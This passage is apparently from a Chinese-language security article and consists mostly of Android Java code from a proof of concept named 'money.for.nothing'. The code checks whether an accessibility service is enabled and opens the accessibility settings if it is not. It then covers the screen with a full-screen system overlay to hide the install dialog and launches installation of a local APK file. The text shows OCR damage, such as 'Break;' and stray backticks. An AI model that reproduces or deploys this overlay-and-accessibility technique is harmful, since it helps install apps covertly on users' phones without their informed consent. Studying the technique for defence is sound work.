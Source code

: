 

```
private static final String SERVICE_NAME    = "money.for.nothing/.AccessibilityServiceImpl";

private boolean isAccessibilityServiceEnabled() `{`
   List&lt;AccessibilityServiceInfo&gt; accessibilityServices =
           mAccessibilityManager.getEnabledAccessibilityServiceList(AccessibilityServiceInfo.FEEDBACK_GENERIC);
   for (AccessibilityServiceInfo info : accessibilityServices) `{`
       if (info.getId().equals(SERVICE_NAME)) `{`
           return true;
       `}`
   `}`
   Intent intent = new Intent(Settings.ACTION_ACCESSIBILITY_SETTINGS);
   startActivity(intent);
   return false;
`}`
```

使用“合适”的上下文环境来隐藏安装窗口。



```
final WindowManager.LayoutParams params = new WindowManager.LayoutParams(
       WindowManager.LayoutParams.MATCH_PARENT,
       WindowManager.LayoutParams.MATCH_PARENT,
       WindowManager.LayoutParams.TYPE_SYSTEM_ALERT,
       WindowManager.LayoutParams.FLAG_FULLSCREEN,
       PixelFormat.TRANSLUCENT);
LayoutInflater li = (LayoutInflater) getSystemService(LAYOUT_INFLATER_SERVICE);
View mainView = null;switch (process) `{`   case PAYMENT:
       mainView = li.inflate(R.layout.money_for_nothing_installing, null);       break;   case LOCATION:
       mainView = li.inflate(R.layout.money_for_nothing_setting, null);       break;   case UNINSTALL:
       mainView = li.inflate(R.layout.money_for_nothing_searching, null);
       Break; case INSTALL:
       mainView = li.inflate(R.layout.money_for_nothing_loading, null);
       Break;
`}`final View finalMainView = mainView;
_windowManager.addView(mainView, params);
```

开始安装本地apk文件。



```
String path = "/storage/emulated/legacy/Download/zanti3.01.apk";

if (isAccessibilityServiceEnabled()) `{`
     Intent promptInstall = new Intent(Intent.ACTION_VIEW)
           .setDataAndType(Uri.parse("file://"+ path),
                   "application/vnd.android.package-archive");
   startActivity(promptInstall);
   
`}`
```
